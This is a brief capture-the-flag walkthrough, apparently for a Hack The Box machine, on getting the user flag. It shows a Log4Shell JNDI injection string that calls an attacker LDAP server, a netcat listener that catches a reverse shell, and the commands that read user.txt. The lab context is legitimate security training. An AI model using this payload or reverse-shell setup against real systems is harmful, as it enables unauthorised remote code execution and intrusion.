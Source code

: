 ### User flag

* Run the game
  * python3 start.py
    * Enter your username: \<anything>
    * Enter your password: \<none>
    * Enter server host or host:port: \<HTB machine IP>

<figure><img src=".gitbook/assets/image (16) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Enter the exploit
  * **`${jndi:ldap://10.10.14.3:1389/a}`**

<figure><img src=".gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

* nc -nlvp 4444
  * we obtained reverse shell
    * cd ..
    * cd Desktop
    * type user.txt

